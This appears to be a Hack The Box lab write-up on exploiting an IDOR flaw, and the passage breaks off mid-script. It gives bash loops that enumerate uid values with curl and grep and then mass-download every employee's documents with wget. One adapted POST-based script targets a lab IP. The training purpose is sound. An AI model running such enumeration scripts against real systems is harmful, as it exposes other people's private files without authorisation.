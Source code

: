 As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:


```shell-session
smoothment@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.


# Question
---
![](images/Pasted%20image%2020250217150006.png)

Let's begin by visiting the website:

![](images/Pasted%20image%2020250217150148.png)

We can view invoices, if we check the request we can see this:

![](images/Pasted%20image%2020250217150307.png)

We are set with an `uid` of `1`, so, if an IDOR vulnerability is present in the web application, we can enumerate the invoice files from other users, let's use, also, the `uid` parameter is not injected directly in the URL but inside the request as data, we need to change the script we've been given a little bit, I did this script:

```bash
#!/bin/bash

url="http://94.237.59.180:34953"
results_file="results.txt"

# Clear existing results
> "$results_file"

for i in {1..20}; do
    echo "Testing UID $i..."
    
    # Send POST request with uid parameter
    response=$(curl -s -X POST "$url/documents.php" \
        -H "Content-Type: application/x-www-form-urlencoded" \
```
